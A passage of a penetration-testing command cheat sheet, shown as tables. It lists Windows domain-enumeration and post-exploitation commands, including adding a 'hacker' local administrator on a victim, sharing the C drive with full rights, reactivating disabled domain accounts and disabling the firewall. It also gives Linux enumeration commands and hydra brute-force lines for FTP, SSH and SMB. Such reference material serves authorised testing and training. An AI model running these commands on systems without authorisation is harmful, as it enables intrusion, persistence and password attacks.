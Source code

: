 | net group “Domain Admins” /domain | Prints the members of the Domain Admins group |
| net group “Enterprise Admins” /domain | Prints the members of the Enterprise Admins group |
| net group “Domain Controllers” /domain | Prints the list of Domain Controllers for the current domain |
| net share | Displays your currently shared SMB entries, and what path\(s\) they point to |
| net session \| find / “\” |  |
| arp –a | Lists all the systems currently in the machine’s ARP table. |
| route print | Prints the machine’s routing table. This can be good for finding other networks and static routes that have been put in place |
| Whoami | View the current user |
| tasklist /v | List processes |
| taskkill /F /IM "cmd.exe" | Kill a process by its name |
| net user hacker hacker /add | Creates a new local \(to the victim\) user called ‘hacker’ with the password of ‘hacker’ |
| net localgroup administrators hacker /add | Adds the new user ‘hacker’ to the local administrators group |
| net share nothing$=C: /grant:hacker,FULL /unlimited | Shares the C drive \(you can specify any drive\) out as a Windows share and grants the user ‘hacker’ full rights to access, or modify anything on that drive.One thing to note is that in newer \(will have to look up exactly when, I believe since XP SP2\) windows versions, share permissions and file permissions are separated. Since we added our selves as a local admin this isn’t a problem but it is something to keep in mind |
| net user username /active:yes /domain | Changes an inactive / disabled account to active. This can useful for re-enabling old domain admins to use, but still puts up a red flag if those accounts are being watched. |
| netsh firewall set opmode disable | Disables the local windows firewall |

**LINUX COMMANDS**

| **Command** | **Description** |
| :--- | :--- |
| apt-get install finger rsh-client jxplorer sipcalc | Finger not installed in Kali by default |
| apt-get install rsh-client | R-tools not installed in Kali by default |
| uname –a | Kernel version |
| cat /etc/&lt;distro&gt;-release | Release version |
| showrev –p | Revision |
| rlogin -l &lt;user&gt;&lt;target&gt; | rlogin |
| rsh &lt;target&gt;&lt;command&gt; | rsh |
| find / -perm +6000 -type f -exec ls -ld {} \; &gt; setuid.txt & | Find setuid binaries |
| finger &lt;username&gt;@&lt;ip&gt; | Retrieve user info |
| mysql -h &lt;ip&gt; -u &lt;user&gt; -p &lt;password&gt; | Connect to mysql |
| oscanner -s &lt;ip&gt; -r &lt;repfile&gt; | Oracle scanner |

**PASSWORD GUESSING**

| **Command** | **Description** |
| :--- | :--- |
| hydra -L users -P passwords -M 21.txt ftp | Brute ftp |
| hydra -L users -P passwords -M 22.txt ssh | Brute ssh |
| hydra -L users -P passwords -M 445.txt smb | Brute smb |
